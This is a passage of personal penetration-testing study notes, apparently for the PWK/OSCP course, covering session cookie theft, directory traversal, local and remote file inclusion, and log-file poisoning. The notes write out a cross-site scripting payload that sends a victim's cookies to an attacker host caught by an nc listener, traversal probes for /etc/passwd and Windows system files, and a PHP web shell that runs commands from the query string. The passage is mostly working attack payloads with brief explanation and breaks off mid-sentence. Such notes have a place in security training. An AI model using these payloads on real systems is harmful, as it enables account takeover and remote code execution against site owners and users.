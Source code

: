                             so be fast.
                    #stealing cookies and session info
                        if web app has insecure session managment
                            config we can steal cookie and act like
                            user. `PWK book p 310`
                        example: a `PHPSESSID` cookie is set when an
                            admin user logs in. Steal it and gain
                            access to the admins session.
                        `nc -nvlp 80`
                        `<script>new Image().src="http://<LHOST ip>/cool.jpg?output="+document.cookie;</script>`
                            once an admin log in, `nc` gets the
                            `PHPSESSID` cookie value we need.
                        add a new cookie in `Cookie-Editor` addon 
                            with correct name and cookie value and
                            then click the admin tab. We can now
                            browse as the admin. This is session
                            specific until they log out or session
                            expires.
        #Directory Traversal Vulns       
            display contents of a file not intended by web app setup.
            path traversal vulns, let attacker get access to files outside
            the web apps /root dir. These files are not normally accessed by 
            users. You can manipulate file paths but do not exicute code
            on the server. can be used with `file inclution` attacks.
            #ID and exploit directory traversal
                find file extensions in URL queries. if we see `file=xxx.php`
                    in a url, or any other extension, good indicator that code
                    is being executed from another source and pulling `xxx.php` out
                    of a dir. could get `/etc/passwd` on linux or `c:\boot.ini`
                    on windows. Poke at `file` changing it to `file=old.php` 
                    want to see an error with the full file path loc. the
                    file path will tell you if its `windows` or `*unix`.
                    for windows try: `file=c:\windows\system32\drivers\etc\hosts`
                    this is reliable and accessible by ANY user. If we
                    can view it then we know we can access files OUTSIDE
                    the web root dir.
            #file inclusion vuls
                include a file to a web apps code forcing it to run it.
                need to be able to execute code and write our shell payload
                somewhere.
                local: included file is loaded from same web server
                remote: included file is loaded from external source.
            #ID file inclusion vuls    
                locate params we can manipulte, exicute contents of file
                    within app, check params to see if they will accept
                    url instead of local path to open files (remote inclusion).
                modern php disables `RFIs`(remote file inclution)
            #local file incusions (LFIs)
                [example_php](example_php) since `include` exicutes any php code in
                    the file called, if we write php code in a file, save it
                    locally, and then call it up with `file=` it will run!
                #contaminating log files
                    log file posioning: most web servers log all url requests.
                        we request a fake url with php code in it, it gets saved in
                        the log, and then we point to the posioned log file in our
                        payload. when its read, the php code will be exicuted.
                    connect to the web server on port 80 with `nc -nv <ip> 80`
                    `<?php echo '<pre>' . shell_exec($_GET['cmd']) .  '</pre>';?>`
                        php code that runs `echo` to print to the page.
                        `'<pre>'`html tags and saves formating and results when `echo` 
                        prints our code stays in tact. `.  shell_exec($_GET['cmd']) .` 
                        executes os command via the query string and output
                        results in browser letting us call any cmd we want.
                    sending this payload give a `400 Bad Request` error but 